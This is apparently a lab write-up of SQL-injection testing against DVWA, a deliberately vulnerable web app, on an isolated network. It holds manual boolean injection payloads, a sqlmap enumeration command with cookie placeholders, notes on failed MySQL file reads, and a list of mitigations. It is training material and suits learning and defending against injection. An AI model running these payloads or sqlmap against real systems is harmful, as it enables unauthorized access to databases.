

# 11. DVWA SQL-Injection Validation

## Scope

This workflow is for the isolated DVWA system only. It uses a deliberately vulnerable parameter to demonstrate manual validation and controlled enumeration.

## Manual validation

1. Log in to DVWA and set security to **Low**.
2. Open the SQL Injection page.
3. Submit a normal numeric ID and record the response.
4. Test a quote to observe error behavior:

```text
1'
```

5. Test a controlled boolean condition:

```text
1' OR '1'='1'#
```

6. Compare the response with the normal request.
7. Repeat at Medium/High and review how parameterized queries, escaping, or type enforcement changes the result.

## Optional local sqlmap validation

Capture the current DVWA session cookie from your own isolated browser session and use placeholders rather than hard-coded public targets:

```bash
TARGET="192.168.237.X"
COOKIE="security=low; PHPSESSID=YOUR_SESSION_ID"

sqlmap -u "http://$TARGET/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="$COOKIE" \
  -p id \
  --level=3 \
  --risk=2 \
  --batch \
  --dbs
```

Before running a larger enumeration, verify that the session is valid:

```bash
curl -i -b "$COOKIE" \
  "http://$TARGET/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" | head -40
```

A redirect to the login page means the session is missing or expired.

## File-operation troubleshooting

One lab iteration tested MySQL file reads/writes and encountered syntax and permission restrictions around `LOAD_FILE`, `secure_file_priv`, and `/var/lib/mysql-files`. Those errors are retained as troubleshooting evidence rather than presented as a successful exploit.



## Evidence status

The supplied archive does not contain a clean final SQL-injection result suitable for the main gallery. Capture these items during a retest:

- DVWA security level and target URL
- Manual boolean-result comparison
- Sanitized sqlmap injection summary
- Database/table enumeration limited to DVWA lab data
- Cleanup/reset confirmation

## Mitigations

- Parameterized queries and prepared statements
- Least-privilege database accounts
- Generic error responses
- Disable unnecessary file privileges
- Restrict `secure_file_priv`
- Server-side type validation
